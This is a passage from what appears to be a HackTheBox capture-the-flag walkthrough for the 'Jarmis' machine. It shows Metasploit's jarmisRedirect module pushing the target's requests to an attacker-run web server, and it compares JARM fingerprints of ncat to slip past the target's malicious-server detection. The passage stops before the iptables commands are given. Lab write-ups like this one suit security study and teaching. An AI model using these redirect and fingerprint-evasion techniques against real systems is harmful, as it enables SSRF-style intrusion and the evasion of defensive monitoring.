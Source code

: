 
    Auxiliary action:

       Name      Description
       ----      -----------
       Redirect  Run redirect web server



I'll try giving a redirect to my own host and run:



    msf6 auxiliary(server/jarmisRedirect) > set srvhost tun0
    srvhost => 10.10.14.6
    msf6 auxiliary(server/jarmisRedirect) > set redirecturl http://10.10.14.6/test
    redirecturl => http://10.10.14.6/test
    msf6 auxiliary(server/jarmisRedirect) > run
    [*] Auxiliary module running as background job 0.
    [*] Using URL: https://10.10.14.6:443/kQcebI79N1
    [*] Server started.



When I give that url to Jarmis (the full URL including `/kQcebI79N1` or
MSF won't route it to this listener), after a couple seconds there's a
hit at MSF:



    [*] Redirecting client 10.10.11.117 to http://10.10.14.6/test



And then a hit on a Python webserver I'm running:



    root@parrot[/media/sf_CTFs/hackthebox/jarmis-10.10.11.117]# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.117 - - [23/Sep/2021 09:47:19] code 404, message File not found
    10.10.11.117 - - [23/Sep/2021 09:47:19] "GET /test HTTP/1.1" 404 -



#### iptables / ncat

I noted earlier that `ncat` without the `-k` option was detected as
malicious, but when I added `-k`, it wasn't known by the DB. They are
different because without just fills in nulls for the next nine
requests, whereas the `-k` gives values:

  Option    JARM
  --------- ------------------------------------------------------------------
  no `-k`   `21d000000000000000000000000000eeebf944d0b023a00f510f06a29b4f46`
  `-k`      `21d19d00021d21d00042d43d000000107066a9db8d16b0a001ff4969166ce7`

If I can run `nc` without the `-k`, letting it respond to the first
request, fail on the next nine, and then redirect on the last, I could
get the same behavior I got with MSF.

I'll use `iptables` to do this with the following commands:
